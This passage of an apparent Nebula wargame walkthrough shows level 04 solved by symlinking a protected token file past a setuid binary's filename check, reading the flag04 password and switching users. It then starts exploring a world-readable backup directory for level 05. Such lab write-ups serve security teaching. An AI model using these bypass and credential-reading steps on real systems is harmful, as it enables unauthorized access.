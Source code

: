 The binary disallows opening files whose names contain the string "token"
through the `strstr()` check.

```shell
level04@nebula:~$ /home/flag04/flag04 /home/flag04/token
You may not access '/home/flag04/token'
```

We can bypass the check by creating a symlink to `/home/flag04/token` that
does not contain the string "token" and open that instead.

```shell
level04@nebula:~$ ln -s /home/flag04/token /tmp/foobar
level04@nebula:~$ /home/flag04/flag04 /tmp/foobar
06508b5e-8909-4f38-b630-fdb148a848a2
```

The string in the token file is the password for the flag04 user.

```shell
level04@nebula:~$ su - flag04
Password:
flag04@nebula:~$ whoami
flag04
flag04@nebula:~$ id
uid=995(flag04) gid=995(flag04) groups=995(flag04)
flag04@nebula:~$ getflag
You have successfully executed getflag on a target account
```

# level 05

For this level, we are told to check the home directory of flag05. We are also
told to look out for weak directory permissions.

```shell
level05@nebula:~$ ls -lah /home/flag05
total 5.0K
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 .
drwxr-xr-x 1 root   root     320 2012-08-27 07:18 ..
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
-rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag05 flag05  3.3K 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
drwx------ 2 flag05 flag05    70 2011-11-20 20:13 .ssh
```

We notice a world-readable `.backup` directory.

```shell
level05@nebula:~$ ls -lah /home/flag05/.backup/
total 2.0K
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 ..
-rw-rw-r-- 1 flag05 flag05  1.8K 2011-11-20 20:13 backup-19072011.tgz
```
